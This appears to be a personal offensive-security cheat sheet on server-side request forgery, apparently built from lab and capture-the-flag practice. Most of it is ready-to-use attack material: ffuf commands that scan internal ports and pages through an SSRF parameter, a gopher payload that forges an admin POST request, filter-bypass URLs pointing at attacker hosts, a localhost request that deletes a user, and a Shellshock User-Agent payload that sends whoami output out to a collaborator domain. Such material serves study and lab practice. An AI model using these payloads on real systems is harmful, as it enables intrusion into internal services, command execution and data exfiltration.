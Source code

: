 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

Good research:
https://blog.includesecurity.com/2023/03/mitigating-ssrf-in-2023/
##### Fuzz to check open ports:
```bash
ffuf -w ports.txt -u http://10.129.82.103/index.php -X POST -d "dateserver=http://localhost:FUZZ&date=2024-01-01"  -H "Content-Type: application/x-www-form-urlencoded"  -fr 'Failed'
```

##### Fuzz to find available page
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

##### #Gopher
Send arbitrary bytes to a TCP socket.
Request:
```
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
URL encode it:
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
URL generator:
https://github.com/tarunkant/Gopherus

### Blind SSRF

Burp collaborator replacements:
https://app.requestbin.net/
[Interactsh | Web Client](https://app.interactsh.com/#/)
[Webhook.site - Test, transform and automate Web requests and emails](https://webhook.site/#!/view/295f010b-22b7-4a69-a790-2ed9ff4b8a0e)

#### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

#### Blacklist bypass
#encoding
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
* Double URL encode
##### Whitelist bypass
* `https://expected-host:fakepassword@evil-host`
* `https://evil-host#expected-host`
* `https://expected-host.evil-host`
* Open redirects
* URL-encode, double URL-encode
Example:
```
stockApi=http%3A%2F%2Flocalhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```
##### Attack surfaces
* Partial URLs in requests
* XML - SSRF via XXE
* Referer

#### Shellshock exploitation
Use #burp Collaborator Everywhere extension to detect vulnerable for SSRF headers.
Payload example:
```http
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).4gl54yveqtl0rtvr3fq0s943jupldf14.oastify.com
```
